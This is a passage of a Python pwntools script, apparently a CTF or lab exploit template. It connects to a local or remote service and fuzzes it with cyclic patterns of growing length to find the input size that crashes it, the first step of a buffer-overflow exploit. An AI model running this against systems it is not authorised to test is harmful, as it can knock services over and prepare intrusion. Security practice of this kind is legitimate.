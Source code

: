 ```python
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# ==================== LOCAL  CONSTANTS =====================
RESPONSE_TIMEOUT = 2
# ==================== OPTIMIZED FUZZER =====================
def run_fuzzer():
    io = start()

    pattern = cyclic(5000)  # Generate smart pattern
    chunk_size = 100
    max_size = 5000

    for i in range(0, max_size, chunk_size):
        try:
            current_payload = pattern[:i]
            log.info(f"Sending {len(current_payload)} bytes")

            io.sendline(current_payload)
            response = io.recv(timeout=RESPONSE_TIMEOUT)

            if not response:
                log.success(f"Server stopped responding at [{i}] bytes")
                break

            if b'Hello' not in response:
                log.success(f"Unexpected response at [{i}] bytes")
                break

        except EOFError:
            log.success(f"Server crashed at ~[{i}] bytes")
            break
        except Exception as e:
            log.warning(f"Error at [{i}] bytes: {str(e)}")
            break

    # Try to interact if crash detected
    try:
        io.close()
    except:
        pass

# ==================== MAIN =====================
if __name__ == '__main__':
    run_fuzzer()
```

